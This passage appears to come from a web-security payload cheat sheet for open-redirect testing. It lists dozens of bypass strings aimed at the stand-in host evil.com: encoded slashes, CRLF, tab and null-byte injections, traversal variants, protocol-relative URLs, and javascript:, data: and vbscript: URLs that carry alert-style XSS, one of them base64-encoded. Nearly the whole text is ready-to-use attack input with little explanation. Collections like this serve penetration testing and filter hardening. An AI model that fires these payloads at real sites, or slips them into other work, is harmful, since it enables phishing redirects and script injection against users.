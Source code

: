 ### Category 3: Bypassing "Starts with /" or Relative Path Checks
These try to break out of the expected relative path.
```bash
\/evil.com
/\evil.com
\\evil.com
evil.com
/\/evil.com
/%0d/evil.com (Carriage Return)
/%0a/evil.com (Line Feed)
/%09/evil.com (Tab)
/%00/evil.com (Null byte)
//%2f%2fevil.com
/%2f%2fevil.com
..%2fevil.com
..%5cevil.com
%2e%2e%2fevil.com
%2e%2e%5cevil.com
.../evil.com
..../evil.com
....//evil.com
..;/evil.com
..;//evil.com
```
### Category 4: Protocol-Relative & Data URLs
```bash
//evil.com/x
///evil.com/x
////evil.com/x
https:/evil.com/x
http:/evil.com/x
javascript:alert(1) (Sometimes leads to XSS)
data:text/html,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
vbscript:msgbox("XSS")
javas&#x09;cript:alert(1) (HTML encoded tab)
```
### Category 5: Using Special Characters and Bypass Tricks
```bash
example.com%2f%2fevil.com
example.com&evil.com
example.com|evil.com
example.com'evil.com
example.com"evil.com
example.comevil.com (Backtick)
example.com(evil.com)
example.com;evil.com
example.com%20evil.com
example.com%09evil.com
example.com%0aevil.com
example.com%0devil.com
example.com>evil.com
example.com<evil.com
example.com!evil.com
example.com?evil.com
example.com#evil.com
example.com%3fevil.com (Encoded ?)
example.com%23evil.com (Encoded #)
example.com/evil.com
example.com\/evil.com
example.com\\evil.com
```
